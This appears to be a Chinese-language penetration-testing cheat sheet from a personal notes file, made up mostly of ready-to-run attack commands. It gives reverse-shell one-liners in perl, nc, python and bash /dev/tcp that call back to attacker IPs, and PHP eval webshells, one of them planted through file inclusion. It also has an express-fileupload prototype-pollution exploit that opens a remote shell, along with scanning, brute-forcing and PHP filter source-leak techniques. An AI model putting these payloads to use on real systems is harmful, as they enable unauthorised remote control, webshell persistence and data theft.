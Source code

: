 # 渗透

## 反弹shell

#### perl反弹shell

```
perl -e 'use Socket;$i="192.168.64.6";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


#### nc不含-e参数反弹shell

```
nc 10.0.0.1 4444 -e /bin/sh
nc 10.0.0.1 3333 | /bin/bash | nc 10.0.0.1 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.0.0.14 5555 >/tmp/f
```

#### python反弹shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.65.5",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

#### python升级shell

```
python -c "import pty; pty.spawn('/bin/bash')"
```
#### sudo node 反弹shell

```
sudo node -e 'child_process.spawn("/bin/bash", {stdio:[0,1,2]})'
```



## 主机发现

#### arp-scan

```
sudo arp-scan -I eth0 -l
```



当没有arp-scan时

#### arping

```
for i in $(seq 1 254); do sudo arping -c 10.0.0.$i; done
```



#### fping

```
fping -gaq 10.1.1.0/24
```

#### nmap
ping扫描
```
nmap -sn 10.0.0.0/24
```

![image-20221225105024894](./photo/Penetration/00.png)

用TCP SYN半开扫描（需要root权限）
```
sudo nmap -sS 10.0.0.0/24
```

TCP CONNEC扫描
```
nmap -sT 10.0.0.0/24
```

## 端口扫描

#### namp

```
sudo namp -p22,80 -A 10.1.1.1
```

`-A` 相当于 -sV  -sC  -O 的组合

包含对应用版本的扫描，以及针对这种应用的常见的脚本的扫描

同时会扫描目标的操作系统的版本



## 暴破

### web路径暴破

#### gobuster

一款可以用来暴破web路径和dns等的工具

```
gobuster dir -u http://10.1.1.1 -w baopo_dir.txt -x txt,php,html,jsp
```

#### dirsearch





#### feroxbuster





### url参数暴破

#### ffuf

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-paramenter-names.txt:PARAM -w baopo_dir.txt:VAL -u http://10.1.1.1/tt.php?PARAM=VAL -fs 0
```

`-fs`是过滤 `0` 是空内容



ps：

可以用一个已知文件来测试参数和文件包含漏洞（假定存在文件包含漏洞）

假定http://10.1.1.1下存在http://10.1.1.1/index.html页面，也就是存在index.html文件，想要暴破http://10.1.1.1/secret/tt.php的参数，那就用一下这种方式来探测：

```
ffuf -w /usr/.../burp-paramenter-names.txt -u http://10.1.1.1/secret/tt.php?FUZZ=../index.html -fs 0
```

假定存在comd参数

测试后发现http://10.1.1.1/secret/index.php?comd=../index.html可以访问到index.html页面，而http://10.1.1.1/secret/tt.php?comd='其他'  和直接访问/secret/tt.php是相同的



## 其他

#### php url传参执行cmd命令

```php
if(isset($_GET['cmd'])){
    system($_GET['cmd']));
}
```



cyberchef



python升级shell

```
python -c "import pty; pty.spawn('/bin/bash')"
```





#### echo一句话木马 php

```php
\<\?php @eval\(\$_POST\[\'cmd\'\]\)\;\?\>
```





#### express-fileupload漏洞exp

```
import requests
cmd = 'bash -c "bash -i &> /dev/tcp/192.168.65.4/5555 0>&1"'

requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName':(None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
requests.get('http://127.0.0.1:8080')
```



#### seclists

apt install seclists

包含了适用于各种场景的字典



#### 尝试读取php网页的源代码

假定存在这样一个网页：http://asdf.com/evil.php?commond=1

[利用php的filter封装器](http://asdf.com/evil.php?commond=php://filter/convert.base64-encode/resource=evil.php)

正常读取php文件会将php执行后返回，而无法获取它的源码，而采用base64编码后，就不会执行php代码，而直接返回base64的编码。resource后的文件可以是目标服务器上的任何已知确定存在的文件。



# 杂

**$1$** is MD5
**$2a$** is Blowfish
**$2y$** is Blowfish
**$5$** is SHA-256
**$6$** is SHA-512



file_include传马

![image01](./photo/Penetration/01.png)

```php
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST["bgxg"]); ?>'); ?>
```






